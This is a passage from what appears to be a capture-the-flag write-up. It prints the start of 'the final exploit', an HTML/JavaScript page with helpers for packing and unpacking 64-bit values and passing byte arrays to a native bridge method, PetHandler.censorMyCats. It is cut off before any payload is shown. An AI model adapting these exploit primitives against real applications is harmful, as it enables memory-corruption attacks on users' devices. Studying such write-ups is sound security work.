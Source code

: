 Here is the final exploit:

```html
<html>

<script src="./bignumber.js/bignumber.js"></script>

<script>


function b64enc(val) {
    return btoa(val);
}

function p64(val) {
    var cur = val;
    var ret = "";
    for (var i = 0; i < 8; i++) {
        ret += String.fromCharCode(cur & 0xff);
        cur = cur / 256;
    }
    return ret;
}

function sleep(ms) {
  return new Promise(resolve => setTimeout(resolve, ms));
}


function fmt(val){
    var bigdick = new Uint8Array(val.length)
    for(var i = 0; i < val.length; ++i){
            bigdick[i] = val.charCodeAt(i);
    }
    return "[" + bigdick + "]";

}

function cat(shit) {
    return PetHandler.censorMyCats(fmt(shit));
}

function unpack(offset, array) {
    var val = new BigNumber(0);
    for (var i = 7; i >= 0; i--) {
        val = val.plus(BigNumber(array[offset + i]));
        if (i != 0) {
            val = val.times(BigNumber(256));
        }
    }
    //val = val.divideBy(BigNumber(256));
    return val;
}

function strunpack(offset, array) {
    var ret = "";
    for (var i = 0; i < 8; i++) {
        ret += String.fromCharCode(array[offset + i]);
    }
    return ret
}

function pad(val, num) {
    var ret = "";
```